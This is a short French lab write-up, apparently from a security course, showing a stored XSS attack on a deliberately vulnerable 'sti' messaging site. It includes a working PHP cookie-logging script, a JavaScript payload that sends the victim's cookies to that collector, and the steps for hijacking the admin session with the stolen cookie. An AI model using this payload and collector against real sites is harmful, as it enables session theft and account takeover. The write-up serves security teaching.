# Vulnérabilité

Cet article illuse une attaque XSS sur le site web vulnérable sti.

Objectif : Voler le cookie de l'administrateur

Méthode : Envoyer un  message contenant un script xss dans le sujet. Celui-ci va faire une requête GET avec la valeur des cookies  renvoyant vers un site web malveillant qui va récupérer le cookie



## Infrastructure

- Fichier `steal.php` pour voler les cookies

```php
<?php
$COOKIE_NAME = "cookie";
if(isset($_GET[$COOKIE_NAME])){
        $cookie = $_GET[$COOKIE_NAME];
        $steal = fopen("log.txt", "a");
        fwrite($steal, $cookie ."\n");
        fclose($steal);
}
?>
```



- Script javascript malveillant

```javascript
<script type="text/javascript">
  document.location = "http://localhost/sti/steal.php?cookie=" + document.cookie ;
</script>
```



## Attaque

- Envoyer le message à notre cible, ici l'utilisateur `admin`

![xss-message](./assets/xss-cookie/xss-message.PNG)

L'utilisateur `admin`losqu'il clique sur sa boite de réception va déclencher l' effet du script malveillant, il sera redirigé vers le site malveillant.

L'attaquant n'a plus qu'a afficher son fichier log.txt pour obtenir le cookie de session

![log-cookie](./assets/xss-cookie/log-cookie.PNG)

## Vérification 

On peut ensuite remplacer notre cookie de session par la valeur de celui récupéré dans les logs.

![change-cookie](./assets/xss-cookie/change-cookie.PNG)

En constate en rafraichissant la page que l'onglet Administration est apparue

![result](./assets/xss-cookie/result.PNG)

## Sources 

https://github.com/kensworth/cookie-stealer

